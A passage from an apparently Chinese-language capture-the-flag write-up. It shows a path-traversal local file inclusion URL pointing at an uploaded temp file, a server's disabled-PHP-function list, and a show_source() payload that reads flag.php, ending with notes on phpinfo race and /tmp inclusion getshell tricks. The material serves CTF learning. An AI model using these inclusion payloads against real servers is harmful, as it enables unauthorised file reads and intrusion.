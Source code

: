 
可观察到phpUUzi3T和phpTkgIzO两个文件

4. 利用文件包含执行

```
http://a0a4658b4ffd4fd18c31e517298bdab2354db44e8a76409e.game.ichunqiu.com/blog_manage/manager.php?module=../../../../../../../../tmp/phpTkgIzO&name=
```

发现丧心病狂的禁用了如下函数：

```
exec,passthru,shell_exec,assert,eval,glob,imageftbbox,bindtextdomain,mkdir,dir, system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,symlink,chgrp,chmod,chown,dl,mail,readlink,stream_socket_server,fsocket, imap_mail,apache_child_terminate,posix_kill,proc_terminate,proc_get_status,syslog,openlog,ini_alter,chroot,fread,fgets,fgetss,file,readfile, ini_set,ini_restore,putenv,apache_setenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,file_get_contents,fpassthru,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,fputs,unlink, pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority, pcntl_setpriority   
```

基本的命令执都没法用了，我们的目的是读取网站路径下的flag.php文件，想到跟文件有关的函数，发现show_source()函数没有被禁，于是修改php文件，重新上传并包含，得到flag

```php
<?php show_source('/var/www/html/flag.php')?>
```

#### 总结

- phpinfo+LFI：可以用自包含来留下缓存文件，但是我们没法知道缓存文件的名字，所以是还是需要POST给phpinfo，然后多线程在删除文件之前包含进来

- /tmp/目录+LFI: 可以自包含，然后getshell
